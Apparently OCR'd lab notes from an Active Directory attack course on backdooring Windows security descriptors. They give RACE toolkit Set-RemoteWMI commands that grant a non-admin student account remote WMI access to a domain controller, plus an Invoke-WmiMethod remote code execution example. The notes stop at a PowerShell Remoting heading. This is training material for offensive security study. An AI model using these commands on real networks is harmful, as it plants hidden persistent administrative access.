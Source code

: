 - It is possible to modify **Security Descriptors** (security information like Owner, primary group, DACL and SACL) of multiple remote access methods (securable objects) to allow access to non-admin users.
- Administrative privileges are required for this.
- It, of course, works as a very useful and impactful **backdoor mechanism**

**Security Descriptor Definition Language defines the format which is used to describe a security descriptor. SDDL uses ACE strings for DACL and SACL**:
```powershell
ace_type;ace_flags;rights;object_guid;inherit_object_guid;account_sid
```

**ACE for built-in administrators for WMI namespaces**:
```powershell
A;CI;CCDCLCSWRPWPRCWD;;;SID
```

## WMI

ACLs can be modified to allow non-admin users access to securable objects. 

**Using the RACE toolkit**:
```powershell
. C:\AD\Tools\RACE-master\RACE.ps1
```

**On local machine for student1**:
```powershell
Set-RemoteWMI -SamAccountName student1 -Verbose
```

**On remote machine for student1 without explicit credentials**:
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -namespace 'root\cimv2' -Verbose
```

**On remote machine with explicit credentials. Only root\cimv2 and nested namespaces**:
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc -Credential Administrator -namespace 'root\cimv2' -Verbose
```

**On remote machine remove permissions**:
```powershell
Set-RemoteWMI -SamAccountName student1 -ComputerName dcorp-dc-namespace 'root\cimv2' -Remove -Verbose
```

example of code execution with WMI:
```powershell
Invoke-WmiMethod -Class win32_process -Name Create -ArgumentList ‘calc.exe’ -ComputerName dcorp-dc
gwmi -Class win32_operatingsystem -ComputerName dcorp-dc
```

## PowerShell Remoting

> Using the RACE toolkit - PS Remoting backdoor not stable after August 2020 patches

